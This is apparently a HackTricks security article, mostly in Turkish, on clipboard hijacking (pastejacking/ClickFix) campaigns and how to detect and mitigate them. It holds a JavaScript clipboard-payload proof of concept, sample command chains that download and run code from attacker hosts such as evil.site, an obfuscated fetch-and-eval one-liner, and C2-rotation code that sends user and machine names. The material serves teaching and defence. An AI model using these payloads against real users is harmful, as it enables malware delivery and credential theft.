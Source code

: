 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Kendiniz kopyalamadığınız hiçbir şeyi yapıştırmayın." – eski ama hala geçerli bir tavsiye

## Genel Bakış

Clipboard hijacking – diğer adıyla *pastejacking* – kullanıcıların komutları incelemeden kopyala-yapıştır yaptıkları gerçeğinden faydalanır. Kötü niyetli bir web sayfası (veya Electron veya Desktop uygulama gibi herhangi bir JavaScript destekli ortam) saldırgan tarafından kontrol edilen metni programatik olarak sistem panosuna (clipboard) yerleştirir. Kurbanlar genellikle özenle hazırlanmış sosyal mühendislik talimatlarıyla **Win + R** (Çalıştır), **Win + X** (Quick Access / PowerShell) tuşlarına basmaya veya bir terminal açıp panodaki içeriği *yapıştırmaya* teşvik edilir; bu da hemen rastgele komutların çalıştırılmasına yol açar.

Çünkü **hiçbir dosya indirilmez ve hiçbir ek açılmaz**, teknik ekleri, makroları veya doğrudan komut yürütmeyi izleyen çoğu e-posta ve web içerik güvenlik kontrolünü atlar. Bu nedenle saldırı, NetSupport RAT, Latrodectus loader veya Lumma Stealer gibi commodity malware families dağıtan phishing kampanyalarında popülerdir.

## JavaScript Kavram Kanıtı (PoC)
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Daha eski kampanyalar `document.execCommand('copy')` kullanıyordu, yenileri ise asenkron **Clipboard API** (`navigator.clipboard.writeText`)'ye dayanıyor.

## ClickFix / ClearFake Akışı

1. Kullanıcı, typosquatted veya ele geçirilmiş bir siteyi ziyaret eder (ör. `docusign.sa[.]com`)
2. Enjekte edilen **ClearFake** JavaScript, panoya Base64-encoded PowerShell tek satırlık bir komutu sessizce koyan `unsecuredCopyToClipboard()` yardımcı fonksiyonunu çağırır.
3. HTML talimatları kurbana şunu söyler: *“**Win + R** tuşlarına basın, komutu yapıştırın ve sorunu çözmek için Enter'a basın.”*
4. `powershell.exe` çalışır, meşru bir yürütülebilir dosya ile kötü amaçlı bir DLL içeren bir arşiv indirir (klasik DLL sideloading).
5. Loader, ek aşamaları çözer, shellcode enjekte eder ve persistence kurar (ör. scheduled task) — nihayetinde NetSupport RAT / Latrodectus / Lumma Stealer'ı çalıştırır.

### Örnek NetSupport RAT Zinciri
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (meşru Java WebStart) dizininde `msvcp140.dll` dosyasını arar.
* Kötü amaçlı DLL API'leri **GetProcAddress** ile dinamik olarak çözer, iki ikili dosyayı (`data_3.bin`, `data_4.bin`) **curl.exe** ile indirir, bunları rolling XOR key `"https://google.com/"` kullanarak çözer, son shellcode'u enjekte eder ve **client32.exe** (NetSupport RAT) dosyasını `C:\ProgramData\SecurityCheck_v1\` konumuna açar.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. `la.txt` dosyasını **curl.exe** ile indirir
2. JScript downloader'ı **cscript.exe** içinde çalıştırır
3. MSI payload'ı alır → imzalı bir uygulamanın yanına `libcef.dll` yerleştirir → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer aracılığıyla MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
The **mshta** çağrısı, `PartyContinued.exe` dosyasını alan, `Boat.pst` (CAB) içeriğini çıkaran, `extrac32` ve dosya birleştirmesi ile `AutoIt3.exe`'yi yeniden oluşturan ve son olarak tarayıcı kimlik bilgilerini `sumeriavgv.digital` adresine sızdıran bir gizli PowerShell betiğini başlatır.

## ClickFix: Clipboard → PowerShell → JS eval → Startup LNK with rotating C2 (PureHVNC)

Bazı ClickFix kampanyaları dosya indirmeyi tamamen atlar ve kurbanlara WSH aracılığıyla JavaScript çekip çalıştıran, bunu kalıcı hale getiren ve C2'yi günlük olarak döndüren tek satırlık bir komutu yapıştırmalarını söyler. Gözlemlenen örnek zincir:
```powershell
powershell -c "$j=$env:TEMP+'\a.js';sc $j 'a=new
ActiveXObject(\"MSXML2.XMLHTTP\");a.open(\"GET\",\"63381ba/kcilc.ellrafdlucolc//:sptth\".split(\"\").reverse().join(\"\"),0);a.send();eval(a.responseText);';wscript $j" Prеss Entеr
```
Ana özellikler
- Obfuscated URL çalışma zamanında ters çevrilerek yüzeysel incelemeyi engeller.
- JavaScript, bir Startup LNK (WScript/CScript) aracılığıyla kendini kalıcı hale getirir ve C2'yi mevcut güne göre seçer – hızlı domain rotation'a imkan verir.

Tarih ile C2'leri döndürmek için kullanılan minimal JS fragmanı:
```js
function getURL() {
var C2_domain_list = ['stathub.quest','stategiq.quest','mktblend.monster','dsgnfwd.xyz','dndhub.xyz'];
var current_datetime = new Date().getTime();
var no_days = getDaysDiff(0, current_datetime);
return 'https://'
+ getListElement(C2_domain_list, no_days)
+ '/Y/?t=' + current_datetime
+ '&v=5&p=' + encodeURIComponent(user_name + '_' + pc_name + '_' + first_infection_datetime);
}
```
Sonraki aşama genellikle persistence oluşturan bir loader dağıtarak bir RAT (ör. PureHVNC) çeker; sıklıkla TLS'i hardcoded bir sertifikaya pinler ve trafiği chunk'lar.

Detection ideas specific to this variant
- Proses ağacı: `explorer.exe` → `powershell.exe -c` → `wscript.exe <temp>\a.js` (ya da `cscript.exe`).
- Startup artefaktları: `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` içinde WScript/CScript'i `%TEMP%`/`%APPDATA%` altındaki bir JS yoluyla çağıran LNK.
- Registry/RunMRU ve komut satırı telemetrisi içinde `.split('').reverse().join('')` veya `eval(a.responseText)` içeren girdiler.
- Uzun komut satırları olmadan uzun scriptleri vermek için büyük stdin payload'larıyla tekrar eden `powershell -NoProfile -NonInteractive -Command -`.
- Daha sonra LOLBins çalıştıran Scheduled Tasks; örn. updater‑görünümlü bir görev/yol altında `regsvr32 /s /i:--type=renderer "%APPDATA%\Microsoft\SystemCertificates\<name>.dll"` (örn. `\GoogleSystem\GoogleUpdater`).

Threat hunting
- `.../Y/?t=<epoch>&v=5&p=<encoded_user_pc_firstinfection>` desenine sahip günlük dönen C2 host adları ve URL'ler.
- Panoya yazma olaylarını Win+R ile yapıştırma ve hemen ardından `powershell.exe` çalışmasıyla korelasyonlayın.

Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` **Win + R** komutlarının geçmişini tutar – olağandışı Base64 / gizlenmiş girdilere bakın.
* Security Event ID **4688** (Process Creation) where `ParentImage` == `explorer.exe` and `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** for file creations under `%LocalAppData%\Microsoft\Windows\WinX\` or temporary folders right before the suspicious 4688 event.
* EDR clipboard sensors (if present) – correlate `Clipboard Write` followed immediately by a new PowerShell process.

## Önlemler

1. Tarayıcı sertleştirme – clipboard yazma erişimini devre dışı bırakın (`dom.events.asyncClipboard.clipboardItem` vb.) veya kullanıcı hareketi gerektirin.
2. Security awareness – kullanıcılara hassas komutları *type* etmelerini veya önce bir metin düzenleyicisine yapıştırmalarını öğretin.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control ile rastgele one-liner'ları engelleyin.
4. Network kontrolleri – bilinen pastejacking ve malware C2 domain'lerine giden outbound istekleri engelleyin.

## İlgili Hileler

* **Discord Invite Hijacking** genellikle kullanıcıları kötü amaçlı bir sunucuya çekip aynı ClickFix yaklaşımını suistimal eder:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Kaynaklar

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)
- [Check Point Research – Under the Pure Curtain: From RAT to Builder to Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)

{{#include ../../banners/hacktricks-training.md}}
